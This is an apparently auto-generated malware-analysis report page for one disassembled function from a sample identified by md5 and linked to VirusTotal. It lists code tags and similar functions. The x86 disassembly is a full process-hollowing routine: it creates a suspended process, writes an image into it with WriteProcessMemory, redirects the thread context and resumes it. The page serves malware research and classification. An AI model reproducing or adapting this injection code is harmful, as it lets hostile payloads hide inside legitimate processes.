 ```yaml
---
layout: post
title:  "fcn.004091da @ 69b3c79878674ea715338a112bb5caa6"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.004091da
- **Origin (md5):** 69b3c79878674ea715338a112bb5caa6
- **VirusTotal:** [virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6][virustotal_ref]

# Code Tags
<span class="tag" id="MEMORY">MEMORY</span>
<span class="tag" id="PROCESS">PROCESS</span>
<span class="tag" id="THREAD">THREAD</span>


# Similar Functions

1. [fcn.10005790][similar_1_ref] (sim.: 0.8842300485474456)
2. [fcn.10004dd1][similar_2_ref] (sim.: 0.8826283027824606)
3. [fcn.004257dd][similar_3_ref] (sim.: 0.8795696681811382)
4. [fcn.100036c8][similar_4_ref] (sim.: 0.8782124147293182)
5. [fcn.00409d1f][similar_5_ref] (sim.: 0.8779815543353717)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
sub esp,0x58
push ebx
push edi
xor eax,eax
lea edi,[ebp-0x14]
stosd dword es:[edi],eax
stosd dword es:[edi],eax
stosd dword es:[edi],eax
push 0x44
stosd dword es:[edi],eax
xor ebx,ebx
lea eax,[ebp-0x58]
push ebx
push eax
call fcn.00411550
add esp,0xc
lea eax,[ebp-0x14]
push eax
lea eax,[ebp-0x58]
push eax
push ebx
push ebx
push 0x8000004
push ebx
push ebx
push ebx
push dword[ebp+0x10]
push dword[ebp+8]
call dword[sym.imp.KERNEL32.dll_CreateProcessA]
test eax,eax
je 0x409335
push 4
push 0x1000
push 4
push ebx
call dword[sym.imp.KERNEL32.dll_VirtualAlloc]
mov edi,eax
push edi
mov dword[edi],0x10007
push dword[ebp-0x10]
mov dword[ebp-4],edi
call dword[sym.imp.KERNEL32.dll_GetThreadContext]
test eax,eax
je 0x409335
push ebx
push 4
lea eax,[ebp+0x1c]
push eax
mov eax,dword[edi+0xa4]
add eax,8
push eax
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_ReadProcessMemory]
push 0x40
push 0x3000
push dword[esi+0x50]
push dword[esi+0x34]
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_VirtualAllocEx]
mov dword[ebp+8],eax
cmp eax,ebx
jne 0x409296
push dword[ebp-0x10]
call dword[sym.imp.KERNEL32.dll_ResumeThread]
xor eax,eax
jmp 0x409338
jbe 0x409335
mov edi,dword[sym.imp.KERNEL32.dll_WriteProcessMemory]
push ebx
push dword[esi+0x54]
push dword[ebp+0xc]
push eax
push dword[ebp-0x14]
call edi
xor eax,eax
mov dword[ebp+0x10],ebx
cmp ax,word[esi+6]
jae 0x4092f8
mov dword[ebp+0x14],ebx
mov ecx,dword[ebp+0xc]
mov eax,dword[ebp+0x14]
mov edx,dword[ebp+0x18]
mov edx,dword[edx+0x3c]
add eax,ecx
lea eax,[eax+edx+0xf8]
mov edx,dword[eax+0x14]
push ebx
push dword[eax+0x10]
mov eax,dword[eax+0xc]
add eax,dword[ebp+8]
add edx,ecx
push edx
push eax
push dword[ebp-0x14]
call edi
movzx eax,word[esi+6]
inc dword[ebp+0x10]
add dword[ebp+0x14],0x28
cmp dword[ebp+0x10],eax
jl 0x4092bd
push ebx
mov ebx,dword[ebp-4]
push 4
lea eax,[esi+0x34]
push eax
mov eax,dword[ebx+0xa4]
add eax,8
push eax
push dword[ebp-0x14]
call edi
mov eax,dword[esi+0x28]
add eax,dword[ebp+8]
push ebx
mov dword[ebx+0xb0],eax
push dword[ebp-0x10]
call dword[sym.imp.KERNEL32.dll_SetThreadContext]
push dword[ebp-0x10]
call dword[sym.imp.KERNEL32.dll_ResumeThread]
mov eax,dword[ebp-0xc]
jmp 0x409338
mov eax,dword[ebp+0x14]
pop edi
pop ebx
leave 
ret 0x18
{% endhighlight %}


[similar_1_ref]: /report/fcn.10005790@01917ef1a6330a4695a0deaf2b7bc13a
[similar_2_ref]: /report/fcn.10004dd1@880ba8b1983575bc0c5ed1cb79dcde8f
[similar_3_ref]: /report/fcn.004257dd@805156a7be59534194996cc728d4bbeb
[similar_4_ref]: /report/fcn.100036c8@01917ef1a6330a4695a0deaf2b7bc13a
[similar_5_ref]: /report/fcn.00409d1f@418e0921f3a9bd4f5bc0dcc59623b5a1
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6